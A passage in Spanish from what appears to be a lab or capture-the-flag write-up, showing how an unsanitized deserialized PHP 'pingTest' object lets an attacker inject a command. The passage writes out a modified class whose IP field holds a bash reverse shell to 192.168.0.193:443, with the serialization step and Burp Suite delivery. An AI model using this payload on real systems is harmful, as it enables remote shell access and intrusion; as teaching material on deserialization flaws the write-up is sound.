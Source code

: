 Mas abajo en el condicional donde se nombra ``'obj'`` es donde se muestra el proceso que se realiza al hora de recibir un objeto por la red, comienza **deserializando** y luego se **decodifica**, en caso de que no se proporcione un objeto en el campo, **automáticamente se llamará a la clase** o objeto ``pingTest``, es decir, envía el Ping por defecto al **localhost**.

-----

Nosotros como atacantes al notar que **no existe sanitización en el campo donde se efectúa el ping** lo que podemos hacer es intentar modificar la clase/objeto a nuestro gusto para realizar acciones que deseemos, por lo tanto procederemos a copiar la clase ``pingTest`` con sus propiedades incluidas.


Lo que haremos será crear un archivo llamado *serialize.php* y meterle la definición de la clase, luego cambiar en el campo ``$ipAddress`` la IP por ``"; bash -c 'bash -i >& /dev/tcp/192.168.0.193/443 0>&1'";`` y en el campo ``$isvalid`` por *True*.
Además intentaremos aprovecharnos de la clase para **crear la data ya serializada** ``echo urlencode(serialize(new pingTest));`` para que al enviar el objeto el mismo servidor lo **Deserialice** y luego lo **interprete**.

```php
--------CAMPO ORIGINAL---------

class pingTest {
	public $ipAddress = "127.0.0.1";
	public $isValid = False;
	public $output = "";
	}
	
--------CAMPO ORIGINAL---------

------CAMPO MODIFICADO---------

class pingTest {
	public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.0.193/443 0>&1'";
	public $isValid = True;
	public $output = "";
	}

echo urlencode(serialize(new pingTest));
------CAMPO MODIFICADO---------
```

Una vez tengamos nuestra clase modificada en nuestro archivo *serialize.php* debemos recordar que el objeto cuando lo enviábamos a través de **Burpsuite**, se enviaba en formato **URLENCODEADO** por lo tanto le haremos lo siguiente.

- ``php serialize.php``

Lo que nos brinde el comando anterior será lo que **debamos colocar como objeto** en la petición de **Burpsuite**, y como nosotros colocamos una **Reverse Shell** al *puerto 443* en el campo de ``ipAddress``, debemos estar en escucha por ese puerto.

![[ATK D 13.png]]
